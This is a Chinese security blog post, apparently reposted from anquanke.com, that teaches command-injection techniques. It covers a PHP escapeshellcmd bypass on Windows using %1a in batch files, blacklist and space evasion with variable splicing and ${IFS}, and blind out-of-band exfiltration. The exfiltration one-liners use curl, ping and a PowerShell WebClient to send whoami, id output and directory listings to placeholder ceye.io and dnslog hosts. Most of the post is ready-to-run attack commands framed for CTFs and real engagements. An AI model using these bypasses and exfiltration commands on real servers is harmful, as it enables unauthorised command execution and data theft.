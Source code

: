 > 原文链接: https://www.anquanke.com//post/id/84920 


# 【技术分享】命令执行和绕过的一些小技巧


                                阅读量   
                                **417369**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



****

**[![](https://p3.ssl.qhimg.com/t0156a411ce688449e4.png)](https://p3.ssl.qhimg.com/t0156a411ce688449e4.png)**

**作者：**[**l3m0n_**](http://bobao.360.cn/member/contribute?uid=2760695556)

**稿费：400RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至linwei#360.cn，或登陆**[**网页版**](http://bobao.360.cn/contribute/index)**在线投稿**



**先看一个例子**

**本地测试环境：**PHP 5.4.45 + Win

```
&lt;?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?&gt;
```

[![](https://p5.ssl.qhimg.com/t0111cf8f376a3a22f8.png)](https://p5.ssl.qhimg.com/t0111cf8f376a3a22f8.png)

应该如何去绕过执行？

<br>

**escapeshellcmd**

[http://php.net/manual/zh/function.escapeshellcmd.php](http://php.net/manual/zh/function.escapeshellcmd.php)

escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

具体会转义哪些字符？

[https://github.com/php/php-src/blob/PHP-5.4.45/ext/standard/exec.c](https://github.com/php/php-src/blob/PHP-5.4.45/ext/standard/exec.c)

[![](https://p5.ssl.qhimg.com/t0187a06b5096dcfad7.png)](https://p5.ssl.qhimg.com/t0187a06b5096dcfad7.png)

这些都会用^来取消其意义。也就是没办法用&amp; | 来执行其他命令，只能列目录。

有这样的一个tip：执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。

[![](https://p5.ssl.qhimg.com/t0148517a109c862e4f.png)](https://p5.ssl.qhimg.com/t0148517a109c862e4f.png)

**<br>**

**更多好玩的命令绕过**

linux下面tip特别多，在实战或者ctf中遇到最多的几个。

**1. 黑名单绕过**

```
执行ls命令：
a=l;b=s;$a$b
cat hello文件内容：
a=c;b=at;c=he;d=llo;$a$b $`{`c`}`$`{`d`}`
```

[![](https://p5.ssl.qhimg.com/t017b0eb53d4a239bc5.png)](https://p5.ssl.qhimg.com/t017b0eb53d4a239bc5.png)

**2. 空格绕过**

```
绕过空格
$`{`IFS`}`
或者在读取文件的时候利用重定向符
&lt;&gt;
```

[![](https://p4.ssl.qhimg.com/t0141709c4070d99b75.png)](https://p4.ssl.qhimg.com/t0141709c4070d99b75.png)

最后就是别人fuzz的一个命令执行项目：

[https://github.com/ewilded/shelling](https://github.com/ewilded/shelling)

**3. 无回显**

无回显获取数据的需求还是挺大的，比如sql，xxe，xss等等，这个时候一般可以用dns/http通道来获取数据。

linux:

```
curl xxxx.ceye.io/`whoami`
ping -c 1 `whoami`.xxxx.ceye.io
```

[![](https://p2.ssl.qhimg.com/t01aa53073ac9572249.png)](https://p2.ssl.qhimg.com/t01aa53073ac9572249.png)

可以获取数据，当前权限是root

[![](https://p4.ssl.qhimg.com/t01e56d650a81b9789b.png)](https://p4.ssl.qhimg.com/t01e56d650a81b9789b.png)

但是有一个特别恼火的事情就是特殊字符或者是空格出现的话，这时候可以通过一些编码来，比如base64

```
curl http://xxxx.ceye.io/$(id|base64)
```

[![](https://p5.ssl.qhimg.com/t019ca9f7c11e16d6c6.png)](https://p5.ssl.qhimg.com/t019ca9f7c11e16d6c6.png)

windows:

windows下很头疼，用起来并没有linux那么方便好用，比如curl、wget等等。

```
http请求：
for /F %x in ('whoami') do start http://xxx.ceye.io/%x
dns请求：
获取计算机名：for /F "delims=" %i in ('whoami') do ping -n 1 %i.xxx.dnslog.info
获取用户名：for /F "delims= tokens=2" %i in ('whoami') do ping -n 1 %i.xxx.dnslog.info
```

powershell这么厉害，为啥不用它来base64一下数据。

```
for /F %x in ('whoami') do powershell $a=[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('%x'));$b=New-Object System.Net.WebClient;$b.DownloadString('http://xxx.ceye.io/'+$a);
```

这样就也能获取到一个base64编码到命令结果啦～算是弥补一个小小的坑。

ps:这个是用powershell2.0写的,其他版本未测试。

但是如果没有powershell想要获取更多数据的话，还是比较麻烦的。

比如获取d:所有文件,遇上空格也是会被截断。

```
for /F %x in ('dir /b D:') do start http://xxx.ceye.io/%x
```

**4. 借他人之手来获取字符**

如果过滤了&lt;&gt;?，可以从已有的文件中获取自己需要的字符。

[![](https://p1.ssl.qhimg.com/t01d216763fea422dd2.png)](https://p1.ssl.qhimg.com/t01d216763fea422dd2.png)

当然如果服务器能外网的话，直接wget -o /tmp就好了。
